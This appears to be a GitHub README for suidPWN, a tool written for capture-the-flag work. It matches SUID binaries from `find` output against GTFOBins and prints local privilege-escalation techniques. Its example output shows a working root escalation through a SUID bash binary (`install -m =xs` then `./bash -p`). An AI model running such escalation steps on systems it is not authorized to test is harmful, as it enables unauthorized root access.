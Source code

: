 # suidPWN
Speeding up identifying which binaries with a SUID flag may lead to root access

# about
We made this tool while working and different CTF boxes.  
The reason was to fast identify SUID binaries which are vulnerable to an LPE.  
  
Usually when you are checking for SUID binaries on a target you get a lot binaries out of the `find` command. Then you may check every binary you do not know on `gtfobins`. With this approach it is easy to overlook a juicy binary.  
  
To avoid this, you can use suidPWN where you just have to paste your `find` output and it tells you if a binary is on `gtfobins` and vulnerable to privilege escalation.
  
> All the credits for the local privilege escalation techniques go to `gtfobins`. These guys are awesome! <3  

# hints
- update the `binaries` files regulary
- when `suidPWN.py` identified a binary which allows privilege escalation, it scrapes the technique from `gtfobins` and stores it locally, so it does not have to scrape it again next time

# usage

## overview
```bash
python3 suidPWN.py -h
usage: suidPWN.py [-h] [-fd] [-f FILE] [-c]

Identify SUID binaries allowing privilege escalation. Tool made by H4&L0. Credits for LPE techniques to https://gtfobins.github.io/

optional arguments:
  -h, --help            show this help message and exit
  -fd, --find           print find suid binaries command
  -f FILE, --file FILE  read suid files result from file
  -c, --credits         show credits

example usage: python3 suidPWN.py
```

## updating the `binaries` file
```bash
$ python3 get_binaries_from_gtfobins.py
[*] Cloning gtfobins repo to extract binary infos...
[*] Cleaning up...
[+] Done.
```

## practical example
```bash
$ python3 suidPWN.py
Paste your find output. When you are done press ctrl+d
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/bash
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
^D

[+] bash
[*] Getting bash escalation technique from gtfobins.github.io.
>
>	sudo install -m =xs $(which bash) .
>
>	./bash -p
>
>	source: https://gtfobins.github.io/gtfobins/bash
```
